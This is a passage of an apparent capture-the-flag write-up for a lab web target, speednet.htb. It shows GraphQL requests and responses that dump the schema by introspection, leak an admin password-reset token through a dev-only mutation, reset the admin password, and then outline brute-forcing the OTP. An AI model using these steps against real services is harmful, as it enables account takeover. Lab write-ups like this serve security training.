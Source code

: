 - Then abusing the graphql introspection to retrieve full schema better for latter step.

```json
{
    "query":"{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}} "
}
```

- Now let's forgot and reset password for `admin@speednet.htb` with devForgotPassword to grab the token.

```json
{
    "query":"\n    mutation devForgotPassword($email: String!) {\n      devForgotPassword(email: $email)\n    }\n  ",
    "variables":{"email":"admin@speednet.htb"}
}
```

```json
{
    "data":{
        "devForgotPassword":"Dev only! Password reset token: 1ec87901-f818-4374-bc35-b43e3dafca54"
    }
}
```

- Change the admin password with the token we got.

```json
{
    "query": "mutation resetPassword($token: String!, $newPassword: String!) {\n  resetPassword(token: $token, newPassword: $newPassword)\n}",
    "variables": {
        "token": "1ec87901-f818-4374-bc35-b43e3dafca54",
        "newPassword": "pass@123"
    }
}
```

```json
{
    "data":{
        "resetPassword":"Password has been reset successfully"
    }
}
```

- When we login to admin, it will prompt to otp, then we will resend otp and then intercept that request to grab the token from this request, and using bruteforce craft script to get match otp.
